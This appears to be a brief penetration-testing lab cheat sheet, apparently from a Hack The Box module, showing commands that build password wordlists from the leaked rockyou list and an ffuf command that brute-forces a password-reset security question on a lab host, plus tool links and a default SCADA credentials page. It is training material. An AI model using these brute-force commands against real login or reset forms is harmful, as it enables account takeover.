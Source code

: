 ### Brute Forcing Passwords
```
[/htb]$ grep '[[:upper:]]' rockyou.txt | grep '[[:lower:]]' | grep -E '^.{8,12}$' | wc -l
```
```
[/htb]$ grep '[[:upper:]]' /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
```
### Vulnerable Password Reset (city)
```
[/htb]$ cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt
```
```
[/htb]$ ffuf -w ./city_wordlist.txt -u http://pwreset.htb/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39b54j201u3rhu4tab1pvdb4pv" -d "security_response=FUZZ" -fr "Incorrect response."
```
# Useful Links

[SCADA HMI Username/Password](https://www.192-168-1-1-ip.co/router/advantech/advantech-webaccess-browser-based-hmi-and-scada-software/11215/)

[SecLists](https://github.com/danielmiessler/SecLists)

[EpochConverter](https://www.epochconverter.com/)

[CyberChef](https://gchq.github.io/)

[List_of_file_signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) 

[Decodify](https://github.com/s0md3v/Decodify)
[world-cities.csv](https://github.com/datasets/world-cities/blob/master/data/world-cities.csv)
